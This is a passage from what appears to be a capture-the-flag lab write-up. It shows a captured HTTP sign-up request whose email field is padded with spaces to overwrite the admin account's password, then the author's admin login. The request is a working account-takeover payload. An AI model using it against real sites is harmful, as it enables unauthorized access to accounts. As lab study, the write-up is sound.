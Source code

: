 ```text
POST /index.php HTTP/1.1
Host: 10.10.10.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.176/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: close
Cookie: PHPSESSID=630fii00brfacrkgee7jom2p4d
Upgrade-Insecure-Requests: 1
DNT: 1

name=admin&email=admin%40book.htb                                    test&password=!AmA$up3r@dmin!!!
```

Thinking that my password choice had perhaps been a bit too weak, I went back and used `!AmA$up3r@dmin!!!` as a password rather than something super-overly-simplistic in order to prevent other users from accidentally stumbling upon the admin account without learning anything about the proper attack. 

![](../.gitbook/assets/11.5-signedin-admin.png)

I then logged in using my shiny new admin password and started looking around.  Nothing seemed to be different in this account other than the username I was logged in as.  

![](../.gitbook/assets/12-submission.png)
